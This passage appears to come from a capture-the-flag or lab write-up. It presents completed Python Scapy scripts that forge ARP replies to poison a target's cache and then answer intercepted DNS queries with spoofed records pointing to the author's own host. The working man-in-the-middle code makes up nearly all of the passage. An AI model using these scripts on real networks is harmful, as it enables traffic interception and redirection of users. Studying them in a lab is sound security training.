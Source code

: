 ```python
        arp_response = ARP(pdst="10.6.6.35")
        arp_response.op = "is-at"
        arp_response.plen = 4
        arp_response.hwlen = 6
        arp_response.ptype = "IPv4"
        arp_response.hwtype = 0x1

        arp_response.hwsrc = macaddr
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = "4c:24:57:ab:ed:84"
        arp_response.pdst = "10.6.6.35"

        response = ether_resp/arp_response

        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

if __name__ == "__main__":
    main()
```

After you ran this script, you would see a DNS lookup query from the same requesting machine. Similarly to the ARP request, a script was provided but missing data. My final script is as follows:
```python
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src)   
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)       
    dns = DNS(id=packet[DNS].id,qd=packet[DNS].qd,aa=1,qr=1,an=DNSRR(rrname=packet[DNSQR].qname, ttl=10, rdata=ipaddr)) 
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )

    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

if __name__ == "__main__":
```